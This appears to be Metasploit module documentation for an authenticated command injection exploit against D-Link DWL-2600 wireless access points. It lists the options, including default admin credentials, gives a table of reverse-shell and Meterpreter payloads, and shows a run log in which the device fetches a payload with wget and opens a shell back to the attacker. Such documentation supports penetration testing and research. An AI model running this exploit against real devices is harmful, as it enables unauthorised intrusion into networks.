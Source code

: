 # DLINK DWL-2600 Authenticated Command Injection

## Overview
DLINK DWL-2600 WiFi Access Points contain an authenticated command injection vulnerability.  This vulnerability was originally discovered by RAKI BEN HAMOUDA and posted to exploit db here: [https://www.exploit-db.com/exploits/46841](https://www.exploit-db.com/exploits/46841). Original testing was performed against firmware version `4.2.0.15` though other versions are likely affected.

## Options
### HttpUsername
Defaults to admin, this is the username that is used to authenticate to the device
### HttpPassword
Defaults to admin, this is hte password that is used to authenticate to the device
### DOWNHOST
Alternative host to request MIPS payload from.
### DOWNFILE
File name to download - defaults to a random value.
### HTTP_DELAY
Time that the HTTP Server will wait for the ELF payload request.

In addition you will probably want to set `LHOST` and `SRVHOST`.

## Payloads
```
msf5 exploit(linux/http/dlink_dwl_2600_command_injection) > show payloads

Compatible Payloads
===================

   #   Name                                    Disclosure Date  Rank    Check  Description
   -   ----                                    ---------------  ----    -----  -----------
   0   generic/custom                                           normal  No     Custom Payload
   1   generic/shell_bind_tcp                                   normal  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                normal  No     Generic Command Shell, Reverse TCP Inline
   3   linux/mipsle/exec                                        normal  No     Linux Execute Command
   4   linux/mipsle/meterpreter/reverse_tcp                     normal  No     Linux Meterpreter, Reverse TCP Stager
   5   linux/mipsle/meterpreter_reverse_http                    normal  No     Linux Meterpreter, Reverse HTTP Inline
   6   linux/mipsle/meterpreter_reverse_https                   normal  No     Linux Meterpreter, Reverse HTTPS Inline
   7   linux/mipsle/meterpreter_reverse_tcp                     normal  No     Linux Meterpreter, Reverse TCP Inline
   8   linux/mipsle/reboot                                      normal  No     Linux Reboot
   9   linux/mipsle/shell/reverse_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager
   10  linux/mipsle/shell_bind_tcp                              normal  No     Linux Command Shell, Bind TCP Inline
   11  linux/mipsle/shell_reverse_tcp                           normal  No     Linux Command Shell, Reverse TCP Inline

```

## Scenarios
```
msf5 exploit(linux/http/dlink_dwl_2600_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.101:4444 
[*] 192.168.0.100:80 - Trying to login with admin / admin
[+] 192.168.0.100:80 - Successful login admin/admin
[+] 192.168.0.100:80 - Received Auth token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Using URL: http://0.0.0.0:8080/mnHnGuZ0euTGyf5
[*] Local IP: http://192.168.0.101:8080/mnHnGuZ0euTGyf5
[*] Sending CGI payload using token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Client 192.168.0.100 (Wget) requested /mnHnGuZ0euTGyf5
[*] Sending payload to 192.168.0.100 (Wget)
[*] Command Stager progress -  54.24% done (64/118 bytes)
[*] Sending CGI payload using token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Command Stager progress -  72.88% done (86/118 bytes)
[*] Sending CGI payload using token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Command shell session 3 opened (192.168.0.101:4444 -> 192.168.0.100:33318) at 2020-03-26 20:10:26 -0500
[*] Server stopped.
```
